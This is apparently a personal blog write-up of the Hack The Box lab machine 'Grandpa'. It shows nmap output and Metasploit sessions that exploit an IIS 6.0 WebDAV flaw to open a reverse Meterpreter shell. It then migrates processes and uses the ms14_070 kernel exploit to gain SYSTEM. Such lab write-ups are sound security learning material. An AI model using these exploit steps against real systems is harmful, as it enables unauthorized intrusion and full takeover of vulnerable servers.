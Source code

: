 ```yaml
---
layout: post
title:  "HTB: Grandpa"
date:   2021-03-14 21:00:00 +1100
category: hacking
---
```


## Grandpa
Grandpa was next after Irked; I went in blind.

## Ports
HTTP only.

## IIS 6.0
Nmap says:

{% highlight shell %}
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
{% endhighlight %}

A quick google and I decide to yeet metasploit at it:

{% highlight shell %}
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set rhosts 10.10.10.14
rhosts => 10.10.10.14
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.14:1032) at 2021-03-14 05:31:44 -0400

meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 2132 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
{% endhighlight %}

## Privesc
I run the local exploit suggester and get about 6 different potential options; none of them work. I google for kernel exploits for Server 2003 SP1 (this is what we've got), I find some more options and and try them; nada.

What I was doing wrong - and I was doing something wrong - was that I needed to migrate into a different process before I started. So once that was done, no more problems:

{% highlight shell %}
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 272   4     smss.exe                                                        
 280   1080  cidaemon.exe                                                    
 320   1080  cidaemon.exe                                                    
 # etc                                    
 1408  396   vmtoolsd.exe                                                    
 1456  396   svchost.exe                                                     
 1600  396   svchost.exe                                                     
 1704  396   alg.exe                                                         
 1840  612   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2316  612   wmiprvse.exe                                                    
 2752  3180  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3180  1456  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3628  612   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3988  2752  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 4092  1080  cidaemon.exe                                                    

meterpreter > migrate 3628
[*] Migrating from 2752 to 3628...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.10.14.10:1234 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Sending stage (175174 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.10:1234 -> 10.10.10.14:1040) at 2021-03-14 06:05:40 -0400

meterpreter > shell
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
{% endhighlight %}

I'm going to do this again tomorrow with Metasploit by following a walkthrough.
